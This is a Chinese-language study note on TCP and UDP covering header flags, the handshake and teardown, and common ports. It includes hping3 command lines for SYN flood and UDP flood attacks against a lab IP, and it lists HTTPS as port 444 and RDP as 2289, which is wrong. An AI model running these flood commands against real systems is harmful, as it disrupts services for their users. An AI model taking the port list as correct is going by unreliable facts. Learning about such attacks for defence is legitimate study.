 # 传输层协议

## 一、传输层

### 1. 传输层功能

- 定义应用层协议数据的端口号，流量控制
- 对原始数据进行分段处理

### 2. 传输层提供的服务

- 传输连接服务：建立连接
- 数据传输服务：流量控制、差错控制、序列控制

## 二、TCP协议（面向连接）

### 1. 面向连接

- 要求数据在传输以前必须建立连接，数据传输完成后，必须释放来连接
- 仅支持单播传输：在两个终端之间建立的点对点连接

### 2. TCP报文字段

![img](..\..\picture\092f011e446f4ada98e8c02b09a1a8f8.jpg)

-  URG：紧急标志位，说明紧急指针有效。
-  ACK：确认标志位， 取1时表示应答字段有效，也即TCP应答号将包含在TCP段中，为0则反之。
- RST：复位标志，用于重建一个已经混乱的连接，用来复位产生错误的连接，也会用来拒绝错误和非法的数据包。
-  SYN：同步标志，该标志仅在三次握手建立TCP连接时有效，只在三次握手的前两次为1。
-  FIN：结束标志，表示发送端已经发送到数据末尾，数据传送完成，发送FIN标志位的TCP段，连接将被断开。

### 3.TCP建立连接的 三次握手

![image-20220722120340313](..\..\picture\3505ac79730e423a99292dc2e32c4740.png)

- acknowledge number：表示的是期望的对方（接收方）的下一次sequence number是多少。
- TCP 协议规定SYN报文虽然不携带数据， 但是也要消耗1个序列号， 所以前两次握手客户端和服务端都需要向对方回复 x+1 或 y+1 。

### 4. TCP释放连接的四次挥手

![img](..\..\picture\b0ffab8685bd450b8ad8b1618fb39c0c.png)

- 第一次挥手：A数据传输完毕需要断开连接，A的应用进程向其TCP发出连接释放报文段（FIN = 1,序号seq = u）,并停止再发送数据，主动关闭TCP连接，进入FIN-WAIT-1状态，等待B的确认。

- 第二次挥手：B收到连接释放报文段后即发出确认报文段（ACK=1，确认号ack=u+1,序号seq=v）,B进入CLOSE-WAIT关闭等待状态,此时的TCP处于半关闭状态，A到B的连接释放。而A收到B的确认后，进入FIN-WAIT-2状态，等待B发出的连接释放报文段。
- 第三次挥手：当B数据传输完毕后，B发出连接释放报文段（FIN = 1，ACK = 1，序号seq = w,确认号ack=u+1）,B进入LAST-ACK（最后确认）状态，等待A 的最后确认。
- 第四次挥手：A收到B的连接释放报文段后，对此发出确认报文段（ACK = 1，seq=u+1，ack=w+1）,A进入TIME-WAIT（时间等待）状态。此时TCP未释放掉，需要经过时间等待计时器设置的时间2MSL后，A才进入CLOSE状态。

 ### 5. TCP半关闭状态

- TCP提供了连接的一端在结束它的发送后还能接收来自另一端数据的能力。

### 6. TCP半连接状态

- 如果A向B发起链接，B也按照正常情况响应了，但是A不进行三次握手，这就是半连接。

### 7. TCP常见端口号

- 21号：FTP
- 22号：SSH
- 23号：TELNET
- 25号：SMTP
- 53号*：DNS
- 80号：HTTP
- 110号：POP3
- 143号：IMAP4
- 444号：HTTPS
- 3306号：MYSQL
- 2289号：RDP

### 8. SYN　Flood洪水攻击

- 实施
  - 在kali上使用hping3工具

```
hping3 -c 1000 -d 120 -S -w 64 -p 80 --flood --rand-source 192.168.2.100
-c:发送数据包数量
-d:发送数据包大小
-S（大写）:只发送SYN报文
-w:窗口大小
-p:目标端口
192.168.2.100:服务器IP
```

- 防御
  - 使用TCP代理
  - TCP源探测（下一代防火墙）

## 三、UDP协议（用户数据报协议）

### 1. 特定

- 不需要建立连接，直接发送数据，不会去重新排序，不需要确认

### 2. 报文字段

- 源端口
- 目标端口
- UDP长度
- UDP校验和

### 3. 常见的UDP端口号

- 53号：DNS
- 69号：TFTP
- 111号：RPC（远程过程调用）
- 123号：NTP
- 161号：SNMP（网络管理协议）

### 4. Flood攻击

```
hping3 -q -n --rand-source --udp -p 53 --flood 192.168.2.100 -d 10000
-q:安静模式
-n:数字化输出
--rand-source:随机源IP地址
-p:指定目标端口
```



